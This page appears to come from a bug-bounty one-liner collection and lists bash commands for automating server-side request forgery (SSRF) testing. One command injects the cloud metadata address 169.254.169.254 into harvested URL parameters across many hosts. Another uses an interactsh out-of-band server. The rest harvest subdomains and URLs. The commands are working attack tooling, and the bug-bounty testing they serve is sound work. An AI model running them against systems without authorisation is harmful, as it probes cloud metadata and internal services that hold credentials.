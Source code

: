 > https://github.com/dwisiswant0/awesome-oneliner-bugbounty

### SSRF

- Automate SSRF attacks

    ```bash
    cat params.txt | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I host -P 50 bash -c "curl -ks 'host' | grep \"compute.internal\" && echo -e \"[VULNERABLE] - X \n \"" | grep "VULN"
    ```

    ```bash
    cat ssrf.txt | qsreplace "interactsh server ID" | anew -q ssrf_test.txt
    ffuf -w ssrf_test.txt -u FUZZ -p "0.6-1.2" -H "(header in thread)" -t 200 -s
    ```

    ```bash
    subfinder -d http://target.com -all -silent | httpx -silent -threads 500 | anew -q subdomains.txt
    
    cat subdomains.txt | gauplus --random-agent -b png,jpg,svg,gif -t 500 | anew -q gau_output.txt
    ```

    ```bash
    cat subdomains.txt | xargs -P 30 -I host bash -c "echo host | waybackurls | anew -q wayback_output.txt"
    
    cat wayback_output.txt gau_output.txt | urldedupe -s | anew -q params.txt
    
    cat parameters.txt | gf ssrf | anew -q ssrf.txt
    ```

    ![Automate Server-side request forgery](../_resources/E2z.jpg)
